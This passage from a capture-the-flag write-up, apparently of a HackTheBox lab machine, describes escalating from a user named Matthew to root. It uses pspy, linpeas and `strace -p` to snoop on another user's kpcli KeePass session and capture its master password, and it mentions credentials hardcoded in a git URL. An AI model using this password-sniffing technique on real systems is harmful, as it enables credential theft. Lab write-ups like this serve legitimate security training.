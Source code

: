Contents of the git config file. Matthew hardcoded his credentials into the URL for authentication when making commits to the repository. Also note that some characters in the password are URL encoded since this is being passed over the URL after all.

# Privesc: Matthew → Root

---

## Tracing kpcli

One of the first things I ran as Matthew was `pspy64`, a tool to monitor the `/proc` directory. When I ran it as Tristan, nothing popped up. Matthew was a different story however.

<br>

```bash
2023/04/20 04:11:32 CMD: UID=1001 PID=537220 | -bash -c /usr/bin/kpcli 
2023/04/20 04:11:32 CMD: UID=1001 PID=537221 | -bash -c /usr/bin/kpcli
```

Kpcli is a command line tool to interact with KeePass. We also see that inside Matthew’s directory, is a personal KeePass database. To log into the database, you need to enter a master password or a key. Given that there is no key laying around like how there was in Coder, Matthew likely enters a password. Here’s some more information

<br>

```bash
╔══════════╣ Checking sudo tokens     
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens
ptrace protection is disabled (0)
```

This is some output from linpeas. Now, I do not know if this is a default setting or not because only now did I start paying attention to this but we may be able to trace Matthew’s password with this setup.

The command to run is: `strace -p $(pgrep -u matthew kpcli)` and what it does it that it traces the process where Matthew runs kpcli. 


> <p class="custom-center"> What is strace? </p>
>
> `strace` is a tool that utilizes `ptrace` to specifically debug system calls (syscalls) that were made during the process’ runtime.
{: .prompt-info }

During kpcli’s runtime, many `read()` and `write()` calls were made. Let’s examine some output.

<br>

```bash
octl(3, TCGETS, {B38400 opost isig icanon echo ...}) = 0  
write(1, "=== Entries ===", 16)       = 16 
write(1, 
"
0. food account                                            door.dash.local
1. GItea Admin account                                    git.mailroom.htb
2. gitea database password                       
3. My Gitea Account                                       git.mailroom.htb
4. root acc                                                               
", 375) = 375                                            
ioctl(3, TIOCGWINSZ, {ws_row=24, ws_col=80, ws_xpixel=0, ws_ypixel=0}) = 0
ioctl(3, TIOCSWINSZ, {ws_row=24, ws_col=80, ws_xpixel=0, ws_ypixel=0}) = 0
```
